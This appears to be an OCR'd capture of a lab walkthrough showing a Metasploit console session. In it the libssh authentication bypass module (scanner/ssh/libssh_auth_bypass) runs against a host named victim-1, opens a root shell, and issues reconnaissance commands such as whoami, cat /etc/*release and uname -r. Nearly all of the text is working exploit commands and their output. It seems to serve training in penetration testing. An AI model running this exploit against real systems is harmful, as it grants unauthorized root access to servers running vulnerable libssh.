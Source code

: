 ```
   SPAWN_PTY     false            no        Spawn a PTY
   THREADS       1                yes       The number of concurrent threads


Auxiliary action:

   Name   Description
   ----   -----------
   Shell  Spawn a shell


msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set SPAWN_PTY true
SPAWN_PTY => true
```

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 192.198.72.3:22 - Attempting authentication bypass
[*] Command shell session 1 opened (192.198.72.2:38423 -> 192.198.72.3:22) at 2023-02-03 10:19:13 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions

Active sessions
===============

  Id  Name  Type   Information                                                  Connection
  --  ----  ----   -----------                                                  ----------
  1         shell   libssh Authentication Bypass Scanner (SSH-2.0-libssh_0.8.3)  192.198.72.2:38423 -> 192.198.72.3:22 (192.198.72.3)

msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions 1
[*] Starting interaction with 1...

[root@victim-1 /]# whoami
whoami
root
[root@victim-1 /]# cat /etc/*release
cat /etc/*release
NAME="Arch Linux"
PRETTY_NAME="Arch Linux"
ID=arch
ID_LIKE=archlinux
ANSI_COLOR="0;36"
HOME_URL="https://www.archlinux.org/"
SUPPORT_URL="https://bbs.archlinux.org/"
BUG_REPORT_URL="https://bugs.archlinux.org/"
[root@victim-1 /]# uname -r
uname -r
5.4.0-125-generic
[root@victim-1 /]# ^Z
Background session 1? [y/N]  y
```
